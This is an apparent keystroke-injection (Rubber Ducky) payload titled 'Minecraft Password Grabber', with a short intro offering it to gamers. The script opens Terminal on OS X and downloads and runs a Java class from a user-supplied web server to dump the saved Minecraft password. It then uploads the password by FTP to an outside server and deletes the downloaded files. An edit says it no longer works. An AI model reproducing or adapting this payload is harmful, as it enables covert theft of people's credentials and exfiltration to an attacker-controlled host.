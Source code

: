 This is a payload for all of the gamers that dumps the minecraft password and sends it via ftp to the server of your choice.  Works only on OS X because there aren't a whole lot of practical uses for this other than to prove how insecure some games are. Requires a web server, and an ftp server. You need to host [this file](https://app.box.com/s/3svc1gvulsqrtusj4eqg) on the root of the webserver (do not change the name or else it won't run)
**Edit:** No longer works due to authentication method change.  Still an interesting concept though


    REM Author: Jesse Wallace
    REM Title: Minecraft Password Grabber
    REM This payload dumps the minecraft password and uploads it via ftp.
    REM Fill in all of the information for your server below
    DELAY 1000
    GUI SPACE
    STRING terminal
    DELAY 500
    ENTER
    DELAY 4000
    STRING wget WEBSERVER/mcsteal.class
    ENTER
    DELAY 500
    STRING java mcsteal >> lastlogin.txt
    ENTER
    DELAY 300
    STRING ftp -i FTPSERVER
    ENTER
    DELAY 800
    STRING USERNAME
    ENTER
    STRING PASSWORD   
    ENTER
    DELAY 400
    STRING send
    ENTER
    DELAY 100
    STRING lastlogin.txt
    ENTER
    STRING minecraftpassword.txt
    ENTER
    DELAY 1000
    STRING exit
    ENTER
    DELAY 200
    STRING rm -rf lastlogin.txt mcsteal.class
    ENTER
    DELAY 100
    STRING exit
    ENTER